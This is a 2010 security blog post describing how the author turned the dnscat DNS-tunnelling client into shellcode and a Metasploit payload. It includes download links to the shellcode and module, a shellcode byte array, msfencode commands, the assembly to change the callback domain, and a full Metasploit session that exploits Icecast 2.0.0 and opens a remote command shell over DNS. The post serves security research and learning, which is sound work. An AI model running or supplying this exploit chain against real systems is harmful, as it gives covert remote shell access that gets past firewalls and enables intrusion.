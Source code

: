 ```yaml
---
id: 611
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-18T08:50:52-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=611'
permalink: /2010/weaponizing-dnscat-with-shellcode-and-metasploit
categories:
    - DNS
    - Hacking
    - Tools
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!
<!--more-->
If you just want to grab the files, here are some links:
<ul>
<li><a href='/blogdata/dnscat-shell-win32.asm'>Win32 shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-win32'>Win32 shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-win32.h'>Win32 shellcode - C array</a></li>
<li><a href='/blogdata/dnscat-shell-win32.rb'>Win32 Metasploit module</a></li>
<li><a href='/blogdata/dnscat-shell-linux.asm'>Linux shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-linux'>Linux shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-linux.h'>Linux shellcode - C array</a></li>
</ul>

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:
<pre>svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make</pre>

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-*/. A .h file containing the C version will be generated, as well:
<pre>$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
</pre>

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:
<pre> $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
</pre>

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:
<pre>get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; <-- To modify domain, change this...
 db 3,'org' ; <-- and this. The number is the section length.
 db 0
</pre>

The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. 

<h2>Encoding with msfencode</h2>
msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:
<pre>$ msfencode -b "\x00" < dnscat-shell-win32 > dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)
</pre>

If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. 

<h2>Metasploit payload</h2>
Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. 

First, there are a number of caveats:
<ul>
<li>This is highly experimental</li>
<li>This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the process</li>
<li>This is set up as a single stage, right now, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities</li>
<li>The dnscat server isn't part of Metasploit, yet, so you'll have to compile run it separately</li>
</ul>
That being said, it also works great when it's usable. The target I use for testing is <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast 2 version 2.0.0</a> (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs (thanks Ed!). It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are, 
<ol>
<li>Install <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast2</a> on your victim machine (Win32)</li>
<li>Download the experimental dnscat <a href='/blogdata/dnscat-shell-win32.rb'>Metasploit module</a> and put it in your Metasploit directory (modules/payloads/singles/windows/)</li>
<li>Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the <a href='/wiki/index.php/Dnscat'>dnscat wiki</a> for more information</li>
<li>Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:</li>
<pre>msf > use exploit/windows/http/icecast_header

msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32

msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221

msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org

msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
</pre>

Meanwhile, on your dnscat server, if all went well, you should see:
<pre>$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
</pre>

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS. 

<h2>Why bother?</h2>
The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

<h2>Feedback</h2>
As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code. 

Thanks!
